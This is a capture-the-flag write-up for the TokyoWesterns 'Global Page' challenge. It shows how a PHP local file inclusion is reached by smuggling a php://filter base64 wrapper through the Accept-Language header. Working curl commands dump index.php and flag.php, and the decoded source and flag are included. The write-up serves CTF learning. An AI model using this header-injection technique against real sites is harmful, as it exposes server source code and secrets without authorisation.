


# Global Page WriteUp(LFI)

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)


The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo: the browser makes a GET request to a php as parameter(page), the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.




Mh! Warning: include(); suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file with the page parameter as directory and the language specified in the Accept-Language Header Request as file.

Every LFI to the page parameter results in a correctly input sanity check(escape . and /).
(e.g. page=index.php -> indexphp/en.php, page=../../../etc/passwd -> etcpasswd/en.php)

If you add language code in the Accept-Language, the server include the properly file language php, if exist.

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index.php` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag.php`.

Decode base64 et voitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```


